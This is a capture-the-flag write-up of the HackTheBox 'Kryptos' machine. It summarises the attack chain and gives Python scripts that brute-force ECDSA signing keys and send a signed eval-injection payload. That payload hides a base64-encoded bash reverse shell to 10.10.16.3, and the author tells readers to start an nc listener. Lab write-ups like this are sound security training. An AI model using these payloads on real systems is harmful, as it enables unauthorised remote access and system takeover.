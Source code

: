 # Kryptos (PDO Injection, SQLite3 RCE, Python Eval Injection)

KryptOS is an insane difficulty Linux box which requires knowledge of how cryptographic
algorithms work. A login page is found to be vulnerable to PDO injection, and can be hijacked to
gain access to the encrypting page. The page uses RC4 to encrypt files, which can be subjected
to a known plaintext attack. This can be used to abuse a SQL injection in an internal web
application to dump code into a file, and execute it to gain a shell. A `Vimcrypt` file is found, which
uses a broken algorithm and can be decrypted. A vulnerable python app running on the local
host is found using a weak RNG (Random Number Generator) which can be brute forced to gain
RCE via the `eval` function.

# Skills Learned:

- PDO Injection
- Exploiting RC4 flaws
- RCE via SQLite3
- Decrypting Vimcrypt files
- Analysing RNG
- Python eval injection

# Problems I Ran Into

1. Priv Esc (Python eval injection)
    - Following the official walkthrough by HTB, there is a `[brute.py](http://brute.py)` script that you have to run to test if the server is vulnerable and to the get the signature being used
    - The script given in the walkthrough gave me problems so I had to tweak it a bit. Here is the script I used:
    
    ```python
    #!/usr/bin/python
    import requests
    import json
    import hashlib
    import binascii
    from ecdsa import VerifyingKey, SigningKey, NIST384p
    url = 'http://127.0.0.1:81/eval'
    uniq_vals = open("uniq.txt").readlines() # uniq.txt is the list of unique values found from rng.py
    expr = "900 + 1"
    def sign(msg, sk):
    	return binascii.hexlify(sk.sign(msg))
    
    for rand in uniq_vals:
    	sk = SigningKey.from_secret_exponent(int(rand), curve=NIST384p)
    	sig = sign(expr, sk)
    	data = { "expr" : expr , "sig" : sig }
    	res = requests.post( url, json = data )
    	print res.text
    	if "Bad" not in res.text:
    		print "Found signature {}".format(sig)
    		print res.text
    		print "Rand: {}".format(rand) # the unique value from uniq.txt
    		print "KEEP NOTE OF THE RAND"
    		break
    ```
    
    - After I found the signature and uniq rand, I tweaked the script again, but after I found where the `os` class is located in python
    - To find the `os` class do the following:
        - open python interpreter in the command line
        
        ```python
        >>> count = 0
        >>> for i in [].__class__.__base__.__subclasses__():
        ...    print(count)
        ...    count += 1
        ...    print(i)
        ...
        
        ```
        
        - `<class 'os.wrap_close'>` is found to be number 134
    - Set up your nc listener and run the following tweaked `brute.py`
    - Now here is the tweaked `[brute.py](http://brute.py)` :
    
    ```python
    #!/usr/bin/python
    import requests
    import json
    import hashlib
    import binascii
    from ecdsa import VerifyingKey, SigningKey, NIST384p
    url = 'http://127.0.0.1:81/eval'
    uniq_vals = open("uniq.txt").readlines()
    expr = "[].__class__.__base__.__subclasses__().__getitem__(117).__init__.__globals__['system']('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zLzEyMzQgMD4mMQ== | base64 -d | bash')"
    
    def sign(msg, sk):
    	return binascii.hexlify(sk.sign(msg))
    
    rand = 59763658961195455702488250327064726633945798537104807246171656262148712073505
    sk = SigningKey.from_secret_exponent(int(rand), curve=NIST384p)
    sig = sign(expr, sk)
    data = { "expr" : expr , "sig" : sig }
    res = requests.post( url, json = data )
    
    if "Bad" not in res.text:
    	print "Found signature {}".format(sig)
    	print res.text
    ```